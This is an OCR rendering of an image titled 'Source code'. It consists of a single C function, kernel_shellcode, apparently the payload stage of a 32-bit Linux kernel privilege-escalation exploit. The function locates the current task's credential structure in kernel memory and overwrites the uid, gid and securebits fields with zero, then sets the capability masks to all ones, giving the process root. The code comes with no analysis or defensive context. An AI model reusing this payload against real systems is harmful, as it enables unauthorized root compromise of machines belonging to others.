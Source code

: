 		static uint32_t g_uid, g_gid;
		
		void kernel_shellcode(void)
		{
		    int i, j;
		    unsigned long thread_addr;
		    unsigned long task_addr;
		    unsigned long cred_addr;
		
		    /**
		     * get current pointer, find kernel stask size
		     * because task_addr->stack == thread_addr
		     */
		    for (i = 1; i <= 4; ++i) {
		        thread_addr = ((unsigned long)&i) & ~(4096 * i -1);
		        task_addr = *(unsigned long *)(((uint32_t)&i) & ~(4096 * i - 1));
		        if (!task_addr || task_addr < 0xc0000000)
		            continue;
		
		        if (*(unsigned long *)(task_addr + sizeof(long)) == thread_addr)
		            break;
		    }
		    
		    if (5 == i)
		        return;
		
		    /* find and modify current->cred */
		    for (i = 0; i < 2048; ++i) {
		        if ((*(unsigned long *)(task_addr + i) == *(unsigned long *)(task_addr + i + sizeof(unsigned long *))) &&
		                *(unsigned long *)(task_addr +i) >= 0xc0000000) {
		            cred_addr = *(unsigned long *)(task_addr +i); /* found cred */
		            
		            /* find uid position */
		            for (j = 0; j < 32; j += 4) {
		                if (*(uint32_t *)(cred_addr + j) != g_uid ||
		                        *(uint32_t *)(cred_addr + j + 4) != g_gid) 
		                    continue;
		
		                /* set uid and gid to 0 */
		                for (i = 0; i < 8; ++i)
		                    *(uint32_t *)(cred_addr + j + 4 * i) = 0;
		                /* cred.securebits */
		                *(uint32_t *)(cred_addr + j + 32) = 0;
		                /* cred.cap_inheritable */
		                *(uint32_t *)(cred_addr + j + 36) = 0;
		                /* other cap */
		                for (i = 0; i < 3; ++i)
		                    *(uint32_t *)(cred_addr + j + 44 + 8*i) = 0xffffffff;
		                goto next;
		            }
		        }
		    }
		
		next:
		    return;
		}
